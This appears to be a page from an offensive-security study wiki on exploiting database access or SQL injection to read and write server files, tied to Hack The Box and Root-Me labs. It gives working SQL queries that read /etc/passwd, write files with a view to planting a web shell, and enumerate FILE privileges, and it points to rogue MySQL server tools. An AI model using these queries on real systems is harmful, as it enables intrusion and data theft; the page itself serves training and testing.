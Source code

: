 # Database Exploitation: File system

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_file_reading](../../../../../_badges/rootme/web_server/sql_injection_file_reading.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-File-reading)

<div class="row row-cols-lg-2"><div>

If we are able to run SQL queries, either from a direct access, or from a [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sqli.md), we may be able to read/write files.

Common usages are:

* 🔑 Read sensitive files <small>(configuration files, /etc/passwd, etc.)</small>
* 🪲 Write a web shell <small>(you need the webserver root path, try to see if it's shown if error messages if any, or try well-known paths)</small>

In the context of a SQLi, you can use [sqlmap](/cybersecurity/red-team/s3.exploitation/tools/sqlmap.md#readwrite-files) to automate this.
</div><div>

To read a file:

```sql!
SELECT LOAD_FILE('/etc/passwd');
LOAD DATA INFILE '/etc/passwd' INTO TABLE xxx; -- require privs?
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE xxx; -- no privs?
```

To write something to a file <small>(⚠️ query length limit)</small>:

```sql!
SELECT [...] INTO OUTFILE '/path/to/writable/dir/myfile';
SELECT "Hello!" INTO OUTFILE '/tmp/myfile';
SELECT FROM_BASE64("SGVsbG8h") INTO OUTFILE '/tmp/myfile';
```
</div></div>

<hr class="sep-both">

## DBMS Introspection

<div class="row row-cols-lg-2"><div>

#### MySQL secure_file_priv

[![sql_injection_file_reading](../../../../../_badges/rootme/web_server/sql_injection_file_reading.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-File-reading)

MySQL uses the `secure_file_priv`. If it's empty, there is no restriction. If `NULL`, read/write are disabled. Otherwise, we are limited to the specified folder. We can check out the current value with:

```sql!
SELECT variable_value FROM information_schema.global_variables
WHERE VARIABLE_NAME='secure_file_priv'
```
```sql!
Select @@global.secure_file_priv
```

MariaDB has this variable set to empty by default. MySQL uses `/var/lib/mysql-files` as the default folder.
</div><div>

#### List Users That Can Manipulation Files

List users with the file permission <small>(Y=YES)</small>

```sql!
SELECT grantee, privilege_type
FROM information_schema.user_privileges
WHERE PRIVILEGE_TYPE = 'FILE'
```
```sql!
SELECT user,File_priv FROM mysql.user
```
</div></div>

<hr class="sep-both">

## MySQL LOCAL INFILE

<div class="row row-cols-lg-2"><div>

MySQL document specify that clients should not connect to untrusted servers as the server may be capable or reading files on the client host. By default, `LOCAL_INFILE` is disabled to avoid this.

This is an old attack and multiple exploits exist for it.

* [Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server) <small>(0.5k ⭐, 2013 🪦)</small>
* [rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server/blob/master/README_EN.md) <small>(0.7k ⭐, 2022 🪦)</small>

You then have to find a vulnerable client connecting to your server. For instance, it could be a install script of a PHP website.
</div><div>
</div></div>